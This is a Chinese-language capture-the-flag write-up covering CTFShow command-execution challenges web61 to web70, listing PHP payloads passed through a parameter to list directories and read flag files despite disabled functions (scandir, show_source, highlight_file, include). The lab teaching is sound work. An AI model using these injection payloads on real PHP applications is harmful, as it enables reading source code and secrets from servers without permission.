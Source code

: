 大家好，这里是KOKO师傅~
今天和大家一起来继续做CTFShow关于命令执行的题目！

## web61
我们先看题目：
![1](https://img-blog.csdnimg.cn/3b4f202692014335a9ea888bd2ba86f5.png)
可能是有需要用到的函数被禁用了！

打开环境后可以看到代码：
![2](https://img-blog.csdnimg.cn/86ea275682194615ae3fbde9c29c016a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
我们给c传参查看一下禁用的函数目录：

```php
 c=print_r(scandir('.'));#查看当前目录
 c=print_r(scandir('/'));#查看根目录
 c=print_r(glob('*'));#查看当前目录
 c=print_r(glob('/*'));#查看根目录

 c=var_dump(scandir('.'));#查看当前目录
 c=var_dump(scandir('/'));#查看根目录
 c=var_dump(glob('*'));#查看当前目录
 c=var_dump(glob('/*'));#查看根目录

c=var_export(scandir('.'));#查看当前目录
c=var_export(scandir('/'));#查看根目录
c=var_export(glob('*'));#查看当前目录
c=var_exportdump(glob('/*'));#查看根目录

#查看当前目录
c=print_r(scandir(current(localeconv())));
c=print_r(scandir(pos(localeconv())));#pos是current的别名，localeconv()返回的数组中第一个值为'.'

c=highlight_file(next(array_reverse(scandir(current(localeconv())))));#读取数组倒数第二个元素

?c=show_source(current(array_reverse(scandir(getcwd()))));#flag在最后一个文件
```
![3](https://img-blog.csdnimg.cn/2bc9330a4ed4428aa01acc52b5f0e047.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
因此我们可以构造payload:

```php
c=show_source(next(array_reverse(scandir(current(localeconv())))));
c=show_source('flag.php');
c=highlight_file('flag.php');
```

传参后即可得到flag：
![4](https://img-blog.csdnimg.cn/b5740d9719f04cf9af93e08d54944c77.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web62
![5](https://img-blog.csdnimg.cn/35a87f9597bb42869551d2e9c98d8768.png)
我们看到题目可以知道又是有关禁用函数的题目：
![6](https://img-blog.csdnimg.cn/74aba193b06848ebb1dda752605f1eab.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以沿用之前的payload：

```php
c=show_source(next(array_reverse(scandir(current(localeconv())))));
c=show_source('flag.php');
c=highlight_file('flag.php');
```

传参后得到flag：
![7](https://img-blog.csdnimg.cn/7dda460557944ee9945dd35c1005ac6f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web63
![8](https://img-blog.csdnimg.cn/3d5edf8e8466460390c6bca63929a7f9.png)
同样是禁用函数的题目：
![9](https://img-blog.csdnimg.cn/c3790719aa604a318b0aeb69c54252f4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
我们依旧可以沿用之前的payload:

```php
c=include('flag.php');echo $flag;
c=show_source(next(array_reverse(scandir(current(localeconv())))));
c=highlight_file('flag.php');
c=show_source('flag.php');
```

传参后得到flag：
![10](https://img-blog.csdnimg.cn/4bc98f4d730c4e76806e65da52ac9002.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web64
![11](https://img-blog.csdnimg.cn/7d13d2b1bc244e4681efabb9cdf2b6b5.png)我们打开环境可以看到源码：
![12](https://img-blog.csdnimg.cn/5f6b6cb0a227444bb2f8fa341479c4e5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
之前构造的payload依然是可以用的：

```php
c=show_source(next(array_reverse(scandir(current(localeconv())))));
c=highlight_file('flag.php');
c=show_source('flag.php');
c=include('flag.php');var_dump(get_defined_vars());
```

传参后即可得到flag：
![13](https://img-blog.csdnimg.cn/500eeb05f9524e848d4280933eb18ac8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web65
![14](https://img-blog.csdnimg.cn/dfb240d1a36648f9b54dddba29467071.png)
依旧是禁用函数的题目~
![15](https://img-blog.csdnimg.cn/ff36cdfb948b41ad8be9599356b99b84.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
之前构造的payload依旧是成功的：

```php
c=show_source(next(array_reverse(scandir(current(localeconv())))));
c=highlight_file('flag.php');
c=show_source('flag.php');
c=include('flag.php');var_dump(get_defined_vars());
```

传参得到flag：
![16](https://img-blog.csdnimg.cn/3af934cd82a844209ddc77c915e9ac5d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web66
![17](https://img-blog.csdnimg.cn/a413fbdc32324dae99e018902365d746.png)
这次看看禁用的范围会不会扩大：
![18](https://img-blog.csdnimg.cn/183a2a9318dc4823bb2abb02dbfb048c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
这次发现之前的payload不能用了，而且一直用的`show_source()`也被禁了：
![19](https://img-blog.csdnimg.cn/7e4fb6ef3a414b1197c422e9a39196df.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
因此我们用之前的读取目录语句发现在根目录里：
![20](https://img-blog.csdnimg.cn/24d2b23aeb1441f4a17e7d49e3c0c95e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
因此我们构造payload：
```powershell
c=highlight_file('/flag.txt')；
#highlight_file()函数是PHP中的一个内置函数，用于突出显示文件的语法。通过使用HTML标记突出显示语法。
#用法:
#highlight_file( $filename, $return )
#参数：该函数接受上述和以下描述的两个参数：
#$filename:它是必填参数。它指定要显示其内容的文件。
#$return:它是可选的布尔值参数。其默认值为FALSE。如果将其设置为TRUE，则该函数将以字符串形式返回突出显示的代码，而不是将其打印出来。
#返回值：成功返回TRUE，失败返回FALSE。如果$return设置为TRUE，它将以字符串形式返回突出显示的代码。
#注意：
#此功能在PHP 4.0.0和更高版本上可用。
#可以通过ini_set()函数或在php.ini文件中设置用于突出显示PHP语法的颜色。
#使用此功能，将显示整个文件，其中可能包含敏感数据，例如密码等。
```
传参后可得flag：
![21](https://img-blog.csdnimg.cn/4d366d65610642c9a31f2ca6fee23570.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web67
![22](https://img-blog.csdnimg.cn/4897a47d8eb643dcad34c8682bea8070.png)
我们打开环境，这次看看会有什么区别没~
![23](https://img-blog.csdnimg.cn/7cb0f00f9e1f47049b7d17b8a5b31df9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
发现是可以沿用上题的payload的：

```php
c=highlight_file('/flag.txt');
```
传参后即可得到flag：
![24](https://img-blog.csdnimg.cn/f214771e2be54313ba03652bee558d1d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web68
![25](https://img-blog.csdnimg.cn/c80b0dcebdb74b6b96c161511f8f45fa.png)
这次的禁用函数题我们继续试试之前的payload是否可行：
![26](https://img-blog.csdnimg.cn/9dcc2d797d4147a3af5f0b475cd26506.png)
这次打开就是直接表明`highlight_file()`被禁用了！
那我们查看根目录：
![27](https://img-blog.csdnimg.cn/f9ca95740a7044858cc5d4fc846002c9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
查看根目录可以发现flag还是在根目录下，但是`highlight_file()`被禁用了，那我们试试用`include()`函数构造payload：

```php
c=include('/flag.txt');
```
传参得到flag：
![28](https://img-blog.csdnimg.cn/ef5946421eda4603a565db9583d0763a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web69
![29](https://img-blog.csdnimg.cn/97096530a80046fd853d13c120f57f77.png)
这次看看是否和web68一样：
![30](https://img-blog.csdnimg.cn/873d6999ea5141fb902cbc15b4a3b05c.png)
我们试试之前的payload：
```php
c=include('/flag.txt');
```
传参得到flag：
![31](https://img-blog.csdnimg.cn/d351db138fb349c0bae8ef2dee665554.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)

## web70
![32](https://img-blog.csdnimg.cn/705727e8644243ad8e16baf4d272fa44.png)
我们打开环境看看会不会有不同的：
![33](https://img-blog.csdnimg.cn/21790746f6504444aebee5d9cb0c7490.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)
让我们试试之前用来构造payload的函数会不会被禁用：
```php
c=include('/flag.txt');
```
传参得到flag，说明没有被禁用：
![34](https://img-blog.csdnimg.cn/70e6b7bb47654b30bdf5485d31593adf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAS29rb--9ng==,size_20,color_FFFFFF,t_70,g_se,x_16)


